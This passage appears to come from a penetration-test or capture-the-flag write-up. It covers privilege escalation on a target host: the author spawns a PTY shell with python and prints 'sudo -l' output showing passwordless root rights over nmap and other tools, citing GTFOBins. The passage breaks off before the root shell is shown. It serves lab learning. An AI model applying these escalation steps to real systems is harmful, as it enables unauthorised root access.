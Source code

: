 ```bash
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:12268 errors:0 dropped:0 overruns:0 frame:0
          TX packets:12268 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1112432 (1.0 MiB)  TX bytes:1112432 (1.0 MiB)
```

![Pasted image 20210427163926.png](../../zzz_res/attachments/Pasted_image_20210427163926.png)

## sudo nmap privilege escalation (#2)

A PTY shell was spawned and sudo permission over nmap was abused in order to spawn a root shell:

PoC: [nmap | GTFOBins](https://gtfobins.github.io/gtfobins/nmap/)

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")';
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
```